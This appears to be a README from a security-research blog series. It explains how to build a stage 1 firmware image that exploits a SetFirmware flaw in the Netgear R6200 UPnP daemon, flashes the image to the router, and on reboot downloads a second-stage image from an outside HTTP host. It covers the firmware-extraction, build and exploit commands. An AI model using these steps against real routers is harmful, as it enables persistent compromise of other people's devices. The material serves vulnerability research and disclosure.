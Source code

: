 ##Broken, Abandoned, and Forgotten Code, Part 13

This code corresponds with [part 13](http://shadow-file.blogspot.com) of the Broken, Abandoned, and Forgotten Code series. In this part we build a stage 1 firmware image that will circumvent the Netgear R6200 UPnP daemon's broken update code and, after rebooting, will download and flash a stage 2 image.

A build system to create the stage 1 firmware image can be found in exploit-src. However, you must provide the binary firmware components from a factory firmware image, due to licensing. You will need to get these on your own. I used and tested the Netgear firmware R6200-V1.0.0.28_1.0.24.chk:

    $ md5sum R6200-V1.0.0.28_1.0.24.chk
    0bbb9004c8cddf2d9602719c34c9e33e  R6200-V1.0.0.28_1.0.24.chk

You can identify the offsets and sizes of the kernel and filesystem components using binwalk, and then extract them using `dd`:

     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=squashfs.bin skip=1328446 bs=1
     $ dd if=R6200-V1.0.0.28_1.0.24.chk of=kernel-lzma.bin skip=86 bs=1 count=1328360

Put ``kernel-lzma.bin`` into exploit-src/.

Then, you'll need to generate a minimized root filesytem directory as described in [part 11](http://shadow-file.blogspot.com/2015/07/abandoned-part-11.html).

Tar up your minimized root filesystem, and put ``rootfs.tar.gz`` in exploit-src/stage1/src/.

You'll also need a little endian MIPS gcc toolchain. Ensure ``mipsel-linux-gcc`` and friends are in your ``$PATH``.

With the missing pieces in place, you can build the stage 1 firmware:

    $ cd exploit-src/
    $ ./buildmips.sh

With this update, assuming you've generated a working, minimized firmware, you should be able to exploit the SetFirmware vulnerability, and flash your firmware image to the router:

``./setfirmware.py <stage_1_firmware.bin>``

Upon rebooting, the stage 1 firmware will attempt to download the second stage from ``http://10.12.34.56:8080/stage2mtd.bin``
